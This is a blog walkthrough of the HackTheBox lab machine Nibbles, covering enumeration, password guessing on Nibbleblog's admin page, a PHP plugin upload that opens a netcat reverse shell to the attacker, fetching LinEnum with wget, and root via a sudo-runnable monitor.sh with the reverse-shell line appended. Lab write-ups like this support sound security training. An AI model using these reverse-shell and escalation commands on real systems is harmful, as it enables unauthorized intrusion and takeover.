+++
tags = ["HackTheBox", "Linux", "Web Application", "RCE"]
title = "Nibbles - HTB"
weight = 10
draft = false
images = [ "/walkthroughs/Nibbles/logo.png" ]
description = "Nibbles is a fairly simple machine, however with the inclusion of a login blacklist, it is a fair bit more challenging to find valid credentials. Luckily, a username can be enumerated and guessing the correct password does not take long for most."
+++

![Logo](logo.png)

Date written: April 2024     
Date published: April 2024

## Introduction

Nibbles is a fairly simple machine, however with the inclusion of a login blacklist, it is a fair bit more challenging to find valid credentials. Luckily, a username can be enumerated and guessing the correct password should not take long. 

Nibbles is a good starter or refresher machine too. As a note I did do this box in conjunction with HTB Academy's Pentester Path. So some information may not be needed to complete the box, but its good to review.  

As always you will want to [connect](https://help.hackthebox.com/en/articles/5185687-introduction-to-lab-access) to your HTB VPN or connect to Pwnbox. Once your connected lets get started with Nibbles!

## Enumeration

 I started by running an basic port scan on the box just to see what I could access. I also added the flags -sC to run a basic set of scripts on each open port and the -sV flag to identify the version of each service running. 

 ```nmap -sV -sC $IP```

![NMAP Scan](NMAP.png)

I saw that port 80 and port 22 were open and decided to do a little more recon on each port before diving into the website. First I ran netcat banner grab on each port. Then ran the nmap script http-enum. 

The banner grab on port 22 did give me the SSH version, but port 80 did not yield anything. The nmap http-enu script did give me the same information for port 22, but also gave me the apache version of the web server. 

```bash
nc -nv  10.129.125.8 22
nc -nv  10.129.125.8 80
nmap -sV --script=http-enum 10.129.125.8
```

![NMAP HTTP enumeration and banner grabbing](NMAP2.png)

After find that information I decided to give into the webpage. The initial webpage doesn't give me much, but the source code does reveal a url I can navigate to ```http://$IP/nibbleblog```.

![Homepage source code](Nibbleblog.png)

Navigating to  ```/nibbleblog``` does not yield much either, but I decided to run a gobuster scan to see if there were any more urls I could utilize. 

```gobuster dir -u http://10.129.125.8/nibbleblog/ --wordlist /usr/share/dirb/wordlists/common.txt```

![Gobuster blog](gobuster.png)

After the scan completed I now have access to a handful of other directories. If this were an actual penetration test I would run gobuster/dirbuster/wfuzz/etc scan against each of those URLs as well as the main domain. 

The above screenshot does not show the ```/nibbleblog/README``` page, but it is a common page I will check along with the siteslist and robots.txt pages. I ran a ```curl``` command on the README page and it revealed the nibbleblog version the site is running. It also says the content directory is writable. Navigating to ```/nibbleblog/content``` gives me a file directory. 

```curl http://10.129.125.8/nibbleblog/README```

![Curl version](version.png)

After searching the file directory for a while I found the file ```users.xml```. I opened the file by clicking the link, but the same can be achieved by using curl. The file contains the username ```admin```. So now I have a username, but no login page, yet. 

![users directory location](<users file.png>)

![Users file contents](users.png)

I then went back to my gobuster results and navigated to the admin.php page, which is the log in page. I have the username of admin, but still need a password. My typical first password to guess is admin, but no luck. I then tried the name of the box and I was in. 

```username: admin password: nibbles```

![Log in](login.png)

## Initial Foothold

The first thing I notice on the page is the plugin directory, because plugin directories typically let you upload files. I start by crafting a reverse bash shell with in a php script. I use the [Reverse Shell Generator](https://www.revshells.com/), but my two favorite resources are [HighOn.Coffee's blog](https://highon.coffee/blog/reverse-shell-cheat-sheet/) and [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

```<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IP $PORT >/tmp/f"); ?>```

![Reverse Shell Generator](revshell.png)

![Shell file](<php shell.png>)

![Plugin](<php shell2.png>)

Once I uploaded my shell I set up a netcat listener with ```nc -lvnp $IP $PORT``` using the same IP and port I specified in my shell. 

![Listener](listener.png)

I then navigated to the directory where the ```image.php``` plug in is stored. ```/nibbleblog/content/private/plugins/my_images```

![Shell directory](<php shell3.png>)

Click the ```image.php``` shell you created, go to your listener, and there should be a shell. Once I had a base shell I upgraded it with the following commands.

```python3 -c 'import pty; pty.spawn("/bin/bash")'```

![Upgrade shell](<shell upgrade.png>)

Navigate to the ```/home/nibbler/user.txt``` file and cat your user flag!

## Privilege Escalation

In the nibbler directory there is also a file called personal.zip. I unzipped the file and saw that there is a script called monitor.sh which isn't helpful at the moment. So I then started a python server on my host machine ```sudo python3 -m http.server $Port``` to transfer the [LinEnum](https://github.com/rebootuser/LinEnum) script to the victim machine. 

![Python server](<python server.png>)

I saved the LinEnum script to my / directory. Back on the nibbler server I downloaded LinEnum with ```wget $IP/Path/To/LinEnum```. The IP should be your IP not 0.0.0.0 like the python server terminal may show. 

![LinEnum](LinEnum.png)

Once downloaded I changed the permissions of the file with ```chmod  +x LinEnum.sh```. Then ran the script with ```./LinEnum.sh```.

After a while the script will finish and I found that the user ```nibbler``` can run the file /home/nibbler/personal/stuff/monitor.sh with root privileges.
![sudo LinEnum](LinEnum2.png)

Now I know I can run the file, but what I really need is a shell, not to run the existing file. I wrote a bash script to the monitor.sh file and set up a new room listener. 

```echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IP $PORT >/tmp/f' | tee -a monitor.sh```

After the listener is set up I ran the monitor.sh file, which looks like it breaks or does nothing, but checking the listener says otherwise. 

![Root](<sudo privs.png>)

![Root Listener](<Root listner.png>)

We have root! I then cat-ed ```/root/root.txt```